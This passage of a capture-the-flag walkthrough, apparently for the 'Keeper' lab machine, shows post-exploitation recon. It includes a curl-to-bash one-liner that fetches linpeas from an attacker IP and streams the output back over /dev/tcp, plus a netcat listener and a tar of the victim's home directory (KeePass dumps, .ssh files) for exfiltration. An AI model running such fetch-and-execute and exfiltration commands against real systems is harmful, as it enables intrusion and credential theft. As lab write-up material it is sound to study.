 ```bash
$ py -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

start a listener to capture linpeas output:

```bash
$ nc -lp 9002 | tee recon/linpeaoutput
```

and fire off linpeas

```bash
$ curl 10.10.14.30:8000/p | bash &> /dev/tcp/10.10.14.30/9001 &
```

It seems there are quite a few interesting files in the home dir of `lnorgaard`:

(Some of these were created by other people solving the box)

```bash
lnorgaard@keeper:~$ ls -lah
total 567M
drwxr-xr-x 6 lnorgaard lnorgaard 4.0K Oct 12 20:47 .
drwxr-xr-x 3 root      root      4.0K May 24 16:09 ..
lrwxrwxrwx 1 root      root         9 May 24 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard  220 May 23 14:43 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard 3.7K May 23 14:43 .bashrc
drwx------ 2 lnorgaard lnorgaard 4.0K May 24 16:09 .cache
drwx------ 3 lnorgaard lnorgaard 4.0K Oct 12 20:36 .gnupg
-rwxr-x--- 1 lnorgaard lnorgaard 242M May 24 12:51 KeePassDumpFull_1.dmp
-rwxr-x--- 1 lnorgaard lnorgaard 242M May 24 12:51 KeePassDumpFull.dmp
drwxrwxr-x 6 lnorgaard lnorgaard 4.0K Oct 12 17:59 ovlcap
-rwxr-x--- 1 lnorgaard lnorgaard 3.6K May 24 12:51 passcodes_1.kdbx
-rwxr-x--- 1 lnorgaard lnorgaard 3.6K May 24 12:51 passcodes.kdbx
-rw------- 1 lnorgaard lnorgaard  807 May 23 14:43 .profile
-rw-r--r-- 1 root      root       84M Oct 13 00:14 RT30000.zip
drwx------ 2 lnorgaard lnorgaard 4.0K Oct 12 18:03 .ssh
-rw-r----- 1 root      lnorgaard   33 Oct 12 07:33 user.txt
-rw-r--r-- 1 root      root        39 Jul 20 19:03 .vimrc
```

Let's package them and send them over to our box for a closer inspection.

```bash
lnorgaard@keeper:~$ tar -czvf /tmp/archive.tar.gz .
./
./user.txt
./.bash_logout
./.bashrc
./.ssh/
./.ssh/known_hosts
./.ssh/authorized_keys
./.ssh/known_hosts.old
./.vimrc
./KeePassDumpFull_1.dmp
./ovlcap/
./ovlcap/merge/
./ovlcap/work/
./ovlcap/lower/
./ovlcap/upper/
./KeePassDumpFull.dmp
./.cache/
./.cache/motd.legal-displayed
./.bash_history
./RT30000.zip
./passcodes.kdbx
```